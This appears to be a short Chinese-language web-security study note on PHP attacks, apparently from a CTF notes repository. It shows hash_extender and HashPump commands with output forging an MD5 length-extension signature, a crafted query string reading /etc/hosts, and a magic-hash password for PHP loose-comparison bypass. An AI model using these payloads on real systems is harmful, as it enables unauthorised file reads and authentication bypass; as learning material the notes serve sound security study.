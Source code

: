 
# web基础

* php攻击


## php攻击
###  MD5 Length Extension Attack
* 工具
1. hash_extender  
> https://github.com/iagox86/hash_extender
2. HashPump  
> https://github.com/bwall/HashPump

* 代码
```shell
$ ./hash_extender -f md5 -l 32 -d '/etc/hosts' -s 'f3d366138601b5afefbd4fc15731692e' -a '' --out-data-format=html
Type: md5
Secret length: 32
New signature: 1b17d9594eb404c97c5090b11660ac63
New string: %2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00

$ ~/Desktop/HashPump
$ hashpump -s f3d366138601b5afefbd4fc15731692e -d /etc/hosts -k 32 -a /etc/hosts 
75221e2e5cd1cd1c7694cbd386571ffe
/etc/hosts\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x01\x00\x00\x00\x00\x00\x00/etc/hosts


//最后构成
?filepath=%2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00%2fetc%2fhosts&sign=75221e2e5cd1cd1c7694cbd386571ffe
``` 

### 弱类型漏洞

* 弱类型漏洞之 ==

> password=240610708
